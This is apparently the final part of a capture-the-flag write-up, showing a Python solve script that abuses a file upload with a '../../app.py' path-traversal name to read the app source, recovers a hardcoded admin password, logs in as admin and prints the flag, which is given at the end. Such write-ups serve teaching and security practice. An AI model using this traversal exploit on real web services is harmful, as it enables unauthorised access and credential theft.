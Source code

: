 ```py
    if response.status_code == 200:
        print("[+] File uploaded successfully: ", response.status_code)
    else:
        print("[+] File upload failed: ", response.status_code)
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')

def get_file(url, session: requests.Session, file_id: int):
    response = session.get(url=url + f'/file/{file_id}')
    print('[+] File content: ')
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')

# -----------------------------------------------------------

def get_admin():
    test_user = {
        'username': 'b',
        'password': 'b'
    }
    
    regist_account(url=URL, account=test_user)
    
    session = requests.Session()
    login_account(url=URL, session=session, account=test_user)
    
    get_profile(url=URL, session=session)
    get_list_files(url=URL, session=session)
    
    upload_file(url=URL, session=session, file_path='upload.py', file_newname='../../app.py')
    get_list_files(url=URL, session=session)
    
    file_id = 2 # CHANGE THIS ID
    get_file(url=URL, session=session, file_id=file_id)
    
def get_flag():
    admin = {
        'username': 'admin',
        'password': '0afc1e0ed61beb49f5f41838bcb0d8bf091b2796'
    }
    session2 = requests.Session()
    login_account(url=URL, session=session2, account=admin)
    
    response = session2.get(url=URL + '/admin')
    print(response.text)
    
if __name__ == '__main__':
    get_admin()
    # get_flag()
```

`admin`'s password is in `app.py`. Another target can be `app/instance/db.db`, since they save plain password to database!

The flag is
```
BHFlagY{f0bfb74dde14ce3c83866fdd6e653ea8}
```